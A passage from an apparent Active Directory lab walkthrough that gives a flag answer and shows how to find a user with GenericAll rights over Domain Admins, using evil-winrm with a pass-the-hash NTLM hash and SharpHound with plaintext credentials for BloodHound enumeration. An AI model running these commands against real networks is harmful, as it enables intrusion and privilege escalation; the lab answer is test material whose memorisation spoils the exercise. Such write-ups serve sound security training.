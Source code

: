 - **Answer:** exc3ss1ve_adm1n_r1ights!

## **Obtain credentials for a user who has GenericAll rights over the Domain Admins group. What this user's account name?**

**Use BloodHound to find the user**

Send SharpHound to the victim machine

```zsh
evil-winrm -i 172.16.7.50 -u administrator -H bdaffbfe64f1fc646a3353be1c2c3c99
```

![](../imgs/Lab/Lab28/29.png)

Collect data with SharpHound

```powershell
SharpHound.exe -c All --zipfilename ILFREIGHT --ldapusername AB920 --ldappassword weasal
```

![](../imgs/Lab/Lab28/30.png)

Load the data into BloodHound. Search for Domain Admins group and find the users have the right to this group by choosing `Explicit Object Controllers` 
